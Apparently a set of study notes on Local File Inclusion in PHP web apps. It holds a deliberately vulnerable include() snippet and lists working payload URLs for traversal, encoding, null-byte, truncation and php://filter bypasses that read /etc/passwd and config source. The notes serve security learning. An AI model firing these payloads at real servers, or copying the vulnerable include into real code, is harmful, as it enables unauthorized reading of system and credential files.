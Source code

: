 
# Introduction to File Inclusions

**Local File Inclusion (LFI)** occurs when a web application allows users to control file paths, potentially leading to the inclusion of unintended files. This can expose sensitive data or even allow attackers to execute arbitrary code on the server.

### Risks of LFI:
- **Source Code Disclosure**: Attackers can view and analyze the application’s source code for other vulnerabilities.
- **Sensitive Data Exposure**: LFI can expose credentials, configuration files, or other sensitive information.
- **Remote Code Execution**: In some cases, LFI can lead to remote code execution, allowing attackers to fully compromise the server.

### Example of LFI in PHP
```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```
- **Vulnerability:** The `include()` function loads files based on user-controlled input, making it possible for an attacker to include files from the server (e.g., `/etc/passwd`).

### Key Functions in LFI:
| Function                    | Read Content | Execute | Remote URL |
|-----------------------------|--------------|---------|------------|
| `include()`, `require()`     | ✅            | ✅       | ✅          |
| `fs.readFile()`, `sendFile()`| ✅            | ❌       | ❌          |
| `@Html.Partial()`, `Response.WriteFile()` | ✅            | ❌       | ❌          |

---

# Local File Inclusion (LFI)

## What is LFI?
- LFI occurs when web applications allow user input to specify file paths, potentially leading to the inclusion of unintended files (e.g., `/etc/passwd`), exposing sensitive data or enabling code execution.

## LFI Exploitation Examples

### 1. **Basic LFI**  
URL: `http://<SERVER_IP>:<PORT>/index.php?language=es.php`  
- **Vulnerability**: The web app includes files based on user input, allowing attackers to read sensitive files by changing the parameter, e.g., `/etc/passwd`.

### 2. **Path Traversal**  
- **Bypassing restrictions**: Use `../../../../` to traverse to the root directory and access files like `/etc/passwd`.  
Example: `http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd`

### 3. **Filename Prefix**  
- **Bypass with `/`**: When a prefix like `lang_` is added, prepend `/` to path traversal to bypass the prefix.  
Example: `http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd`

### 4. **Appended Extensions**  
- **File extension issues**: When `.php` is appended to the input, use techniques like `%00` (null byte) to bypass the extension filter and access files.  
Example: `http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd%00`

### 5. **Second-Order LFI Attacks**  
- **Poisoning input**: Attackers can exploit LFI through indirect inputs, like user profiles, that are later used to load files (e.g., `/profile/$username/avatar.png`).  
- **Exploit**: Poison a value (like username) to control what file is loaded later.

---

# Basic Bypasses 

### 1. Non-Recursive Path Traversal Filters
- **Issue**: Filters remove `../` substrings once but do not recursively check the output string.
- **Bypass**:
  - Use payloads like `....//`, `..././`, or `....\/`.
  - Example:
    ```url
    http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
    ```

### 2. Encoding
- **Issue**: Filters may block `.` and `/` characters.
- **Bypass**:
  - URL encode payloads (e.g., `../` -> `%2e%2e%2f`).
  - Double encoding may bypass additional filters.
  - Example:
    ```url
    http://<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
    ```

### 3. Approved Paths
- **Issue**: Regex used to restrict files to specific directories (e.g., `./languages/`).
- **Bypass**:
  - Start payload with the approved path and use `../` traversal.
  - Example:
    ```url
    http://<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
    ```

### 4. Appended Extensions
- **Issue**: Application appends extensions like `.php` to input strings.
- **Bypass**:
  - Restricted to `.php` files in modern PHP versions.
  - Explore file content (e.g., source code).

### 5. Path Truncation (PHP < 5.3/5.4)
- **Issue**: PHP truncates strings beyond 4096 characters and removes trailing slashes/single dots.
- **Bypass**:
  - Create long paths where `.php` is truncated.
  - Automate string creation:
    ```bash
    echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
    ```

### 6. Null Byte Injection (PHP < 5.5)
- **Issue**: Null byte `%00` terminates the string, ignoring appended extensions.
- **Bypass**:
  - Payload: `/etc/passwd%00`
  - Example:
    ```url
    http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd%00
    ```

---
# PHP Filters 

### Overview
- **PHP Wrappers**: Allow access to I/O streams and extend Local File Inclusion (LFI) exploitation.
- **Use Cases**: Can read PHP source code, gain remote code execution, and assist in attacks like XXE.

### Input Filters
- **PHP Filters**: A type of PHP Wrapper that filters input streams via `php://filter/`.
- **Parameters**:
  - `resource`: Specifies the stream (e.g., a file) to filter.
  - `read`: Applies the specified filter (e.g., `convert.base64-encode`).
- **Types of Filters**:
  - String Filters
  - Conversion Filters (e.g., `convert.base64-encode`)
  - Compression Filters
  - Encryption Filters

### Fuzzing for PHP Files
- Use tools like `ffuf` or `gobuster` to identify PHP pages:
  ```bash
  ffuf -w /path/to/list.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
  ```
- **Tip**: Scan for all response codes (200, 301, 302, 403) to find potential sources.

### Source Code Disclosure
1. Identify a PHP file, e.g., `config.php`.
2. Include the file using LFI with a base64 filter:
   ```url
   php://filter/read=convert.base64-encode/resource=config
   ```
   Access:
   ```
   http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
   ```
3. Base64 decode the result to retrieve the source code:
   ```bash
   echo 'Base64_String_Here' | base64 -d
   ```
- **Tip**: Ensure the entire base64 string is copied for full decoding.

---


